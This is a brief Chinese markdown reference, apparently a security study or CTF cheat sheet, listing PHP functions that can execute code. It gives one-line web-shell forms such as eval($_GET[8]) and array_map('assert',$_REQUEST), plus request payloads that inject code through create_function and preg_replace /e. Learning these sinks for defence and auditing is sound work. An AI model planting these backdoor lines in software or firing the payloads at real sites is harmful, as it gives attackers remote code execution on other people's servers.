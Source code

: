 # php能执行代码的函数

## `eval`

**可执行多行代码**

```php
//eval('echo 123;phpinfo();');
eval($_GET[8]);
```

## `assert`

**只能执行单行代码**

```php
//assert('phpinfo()');
assert($_GET[8]);
```

嵌套eval，实现多行代码执行

发起请求：`http://xxx.com/xxx?8=eval('echo 123;phpinfo();')`

## `preg_replace(正则,替换为,原文本)`

**正则使用参数`/e`时修饰符存在代码执行漏洞，但必须真实发生替换才会触发代码执行**

```php
preg_replace('/a/e',$_GET[8],'a');
```

## `create_function(形参,函数体)`

```php
$f = create_function('$param','echo $param;');
// 以上等价于
function f ($param){echo $param;}
```

  
```php
$f = create_function('',$_GET[8]);
```

发起请求：`http://xxx.com/xxx?8=}phpinfo();//`

> `}`闭合函数体 | 执行代码 | `//`注释后面生成的`}`

结果将变成

function f(){ **}phpinfo();//** }


## `array_map(回调函数,待处理数组)`

**遍历处理数组**

> 能传回调函数的php自带函数都可以试试，不一定要array_map

```php
// 将每个请求参数的值依次传入`assert()`当做一行代码执行
array_map('assert',$_REQUEST);
```

## `"${phpinfo()}"`

**字符串变量解析**

> `php版本需大于5.5`

```php
$a = "${eval($_GET[8])}";
```

